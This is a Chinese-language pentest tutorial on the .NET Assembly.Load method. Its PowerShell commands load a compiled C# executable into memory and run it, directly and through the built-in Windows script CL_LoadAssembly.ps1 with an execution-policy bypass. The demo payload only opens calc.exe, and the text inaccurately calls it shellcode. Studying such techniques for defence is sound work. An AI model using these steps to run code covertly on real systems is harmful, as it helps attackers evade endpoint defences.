 #### Assembly.Load

[Assembly.load](https://msdn.microsoft.com/en-us/library/system.reflection.assembly.load(v=vs.110).aspx)是.Net Framework中[System.Reflection](https://docs.microsoft.com/zh-cn/dotnet/api/system.reflection?view=netframework-4.7.1) namespace中的一种方法，该方法会有多个重载版本，其中一个就是提供程序集的详细信息，即程序集的标识，包括程序集的名称，版本，区域信息，公有密钥标记,全部都是以一个字符串的形式提供，例如：“MyAssembly,Version=1.0.0.0,culture=zh-CN,PublicKeyToken=47887f89771bc57f”。它可以从内存、本地磁盘或者URL当中调用文件。.NET程序集最初只是读取权限，为了枚举与二进制文件相关联的方法和属性，又将权限更改为执行。所以这种方法只能执行C#编译的程序。

这里使用以下代码进行介绍

```C#
namespace nsfocus
{
    public class test
    {
        public static void exec()
        {
            System.Diagnostics.Process proc = new System.Diagnostics.Process();
            proc.StartInfo.FileName = "c:\\windows\\system32\\calc.exe";
            proc.Start();
        }
        static void Main(string[] args)
        {
            exec();
        }
    }
}
```

这样利用Assembly.Load在powershell中直接将文件读取到内存当中，并执行代码当中的shellcode

```powershell
PS C:\> $bytes = [System.IO.File]::ReadAllBytes(".\nsfocus.exe")
PS C:\> [Reflection.Assembly]::Load($bytes)
PS C:\> [nsfocus.test]::exec()
```

另外在windows自带的诊断工具中有一个CL_LoadAssembly.ps1文件其中也用到了该方法，同样可以用上述方法来执行C#的程序，步骤如下

```powershell
PS C:\> # powershell -v 2 -ep bypass
PS C:\> cd C:\windows\diagnostics\system\AERO
PS C:\windows\diagnostics\system\AERO> import-module .\CL_LoadAssembly.ps1
PS C:\windows\diagnostics\system\AERO> LoadAssemblyFromPath ..\..\..\..\nsfocus.exe
PS C:\windows\diagnostics\system\AERO> [nsfocus.test]::exec()
```

需要注意利用CL_LoadAssembly.ps1时，它只能执行通过.NET 2.0编译完成的程序，并且执行过程中它会调用同目录下的CL_Utility.ps1脚本，因此脚本执行必须在当前目录(C:\windows\diagnostics\system\AERO)下，另外加载的可执行程序路径也只能该路径的相对路径。

Links:

- https://pentestlab.blog/tag/assembly-load/
- https://holdmybeersecurity.com/2016/09/11/c-to-windows-meterpreter-in-10mins/

### 参考

- 乌云drops 三好学生《渗透技巧——通过cmd上传文件的N种方法 - WooYun知识库》
- https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/